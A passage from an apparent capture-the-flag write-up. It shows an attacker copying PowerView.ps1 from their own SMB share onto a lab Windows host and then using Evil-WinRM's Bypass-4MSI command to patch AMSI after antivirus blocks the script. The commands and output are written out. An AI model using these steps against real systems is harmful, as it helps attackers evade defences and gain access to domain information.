 ### Bypass AMSI

Taking advantage of the relationships outlined by BloodHound is most easily done with `PowerView.ps1` from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit). I copy it into my SMB share and onto Multimaster, but when I try to load it, it is rejected by the AV:

```
*Evil-WinRM* PS C:\programdata> copy \\10.10.14.19\share\PowerView.ps1 .                  
*Evil-WinRM* PS C:\programdata> . .\PowerView.ps1                    
At C:\programdata\PowerView.ps1:1 char:1                                                 
+ #requires -version 2                                                                   
+ ~~~~~~~~~~~~~~~~~~~~                                                                   
This script contains malicious content and has been blocked by your antivirus software.  
At C:\programdata\PowerView.ps1:1 char:1                                                 
+ #requires -version 2                                                                   
+ ~~~~~~~~~~~~~~~~~~~~                                                                   
    + CategoryInfo          : ParserError: (:) [], ParseException                        
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent 

```

[Evil-WinRM](https://github.com/Hackplayers/evil-winrm) has an AMSI bypass built in. It’s a bit weird in that you have to run `menu` first, and then the command, or it errors out:

```
*Evil-WinRM* PS C:\programdata> Bypass-4MSI                                              
The term 'Bypass-4MSI' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify th
at the path is correct and try again.
At line:1 char:1
+ Bypass-4MSI
+ ~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (Bypass-4MSI:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException 
*Evil-WinRM* PS C:\programdata> menu

   ,.   (   .      )               "            ,.   (   .      )       .   
  ("  (  )  )'     ,'             (`     '`    ("     )  )'     ,'   .  ,)  
.; )  ' (( (" )    ;(,      .     ;)  "  )"  .; )  ' (( (" )   );(,   )((   
_".,_,.__).,) (.._( ._),     )  , (._..( '.._"._, . '._)_(..,_(_".) _( _')  
\_   _____/__  _|__|  |    ((  (  /  \    /  \__| ____\______   \  /     \  
 |    __)_\  \/ /  |  |    ;_)_') \   \/\/   /  |/    \|       _/ /  \ /  \ 
 |        \\   /|  |  |__ /_____/  \        /|  |   |  \    |   \/    Y    \
/_______  / \_/ |__|____/           \__/\  / |__|___|  /____|_  /\____|__  /
        \/                               \/          \/       \/         \/ 
              By: CyberVaca, OscarAkaElvis, Laox @Hackplayers  
  
[+] Bypass-4MSI 
[+] Dll-Loader 
[+] Donut-Loader 
[+] Invoke-Binary
*Evil-WinRM* PS C:\programdata> Bypass-4MSI                                               
[+] Patched! :D

```
